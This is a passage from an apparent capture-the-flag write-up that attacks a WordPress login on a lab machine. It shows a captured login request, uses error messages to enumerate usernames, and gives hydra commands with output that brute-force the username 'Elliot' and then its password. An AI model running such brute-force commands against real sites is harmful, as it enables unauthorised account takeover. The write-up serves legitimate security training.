 ```

Upgrade-Insecure-Requests: 1



log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.159.27%2Fwp-admin%2F&testcookie=1
```

I need only the following line in the result for the acutal Brute Force.

`log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.159.27%2Fwp-admin%2F&testcookie=1`

this shows me how the username and passwords are transmitted to the server.

I also found some Error Box named `ERROR: Invalid username.` after entering admin for username and password.

These kind of Error is helpful in pentesting.

### 2. Exploitation

### Step 2.1: Brute Force

Now to brute force this login i'm using `hydra`

To start the brute force im using `fsocity.dic` for username and a static password `test` to find the username of the login page.

**command:** `hydra -L fsocity.dic -p test 10.10.159.27 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30`

**Findings:**
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-05 20:11:36
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:858235/p:1), ~28608 tries per task
[DATA] attacking http-post-form://10.10.159.27:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.159.27   login: Elliot   password: test
```

Now from the result i know that `Elliot` is the username of the login page.

Now coming to the login page and entering username as `Elliot`, i see a ERROR box named `ERROR: The password you entered for the username Elliot is incorrect.` 

with this result i found that i can u hydra again to find the password

**command:** `hydra -l Elliot -P fsocity.dic 10.10.159.27 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30`
